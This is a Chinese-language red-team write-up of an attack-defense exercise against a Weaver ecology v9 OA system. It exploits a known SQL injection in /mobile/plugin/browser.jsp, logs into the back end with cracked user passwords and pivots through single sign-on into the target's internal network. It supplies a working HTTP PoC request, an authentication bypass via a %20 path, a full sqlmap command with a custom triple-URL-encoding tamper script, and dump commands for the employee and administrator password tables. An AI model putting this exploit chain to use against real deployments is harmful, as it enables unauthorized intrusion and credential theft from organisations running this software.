




# 009-实战总结篇-ecology v9 browser.jsp SQL注入漏洞利用

## 前言

世事一场大梦，人生几度秋凉

本文记录的是：在一场小型攻防演练中使用N day（cology9 browser.jsp SQL注入漏洞）+0 day从而getshell直捣内网的秋凉故事

## 主线剧情

靶标单位ecology OA存在Nday browser.jsp SQL注入漏洞



oracle数据库、DBA权限、站库分离，由于Oracle版本原因我同事在这里并没有getshell（欢迎师傅们拔刀相助，给出指点）





跑后台账户密码，管理员密码无法解出，只有海量普通用户密码青睐于我，成功进入后台


在对该单位做信息收集时就发现存在一些符合我尺寸的系统，但做了认证处理，果然登录OA后可以直接SSO过去


单点登录后，通过其他系统的漏洞成功进入靶标单位内网



## 支线剧情

漏洞原理：https://mp.weixin.qq.com/s/17tc4ep83x4243lzr-brCg

列举一下在实战过程中可能会碰到的坑点，如下：

1、漏洞poc

```http
POST /mobile/plugin/browser.jsp HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 1654

isDis=1&browserTypeId=269&keyword=*
```

2、使用%20未授权访问

> /mobile/plugin/%20/browser.jsp

3、sqlmap用法

注入语句要三次全字符串URL编码，python sqlmap.py -r post.req --level 2 --risk 1 --random-agent --is-dba --thread=4 --tamper=urlencode3.py --proxy http://127.0.0.1:8080

urlencode3.py

```python
#!/usr/bin/env python

"""
Copyright (c) 2006-2022 sqlmap developers (https://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""

from lib.core.enums import PRIORITY

__priority__ = PRIORITY.LOW

def dependencies():
    pass

# URL encoding for all characters
def tamper(payload, **kwargs):
    encoded_payload = ''.join(['%' + format(ord(c), 'x') for c in payload])
    encoded_payload = ''.join(['%' + format(ord(c), 'x') for c in encoded_payload])
    encoded_payload = ''.join(['%' + format(ord(c), 'x') for c in encoded_payload])
    encoded_payload = encoded_payload.replace(' ', '%20')
    return encoded_payload
```

4、对泛微OA的库结构，表字段不够熟悉

HrmRoles 角色信息表

HrmResource 员工信息表

> -D WCOADBA -T HrmResource -C LOGINID,PASSWORD --threads=10 --dump

HrmResourceManager 管理员表

> -D WCOADBA -T HrmResourceManager -C "password" --dump

## 总结

持续学习，坚持分享，诸君共勉，夯实前行！

攻防演练最容易上分的时代已经过去了，就拿OA来举例，往前推一、两年，OA基本上一打一个准，而如今运气好捡个漏，还真不一定能打的下来、打的进去、站得住脚。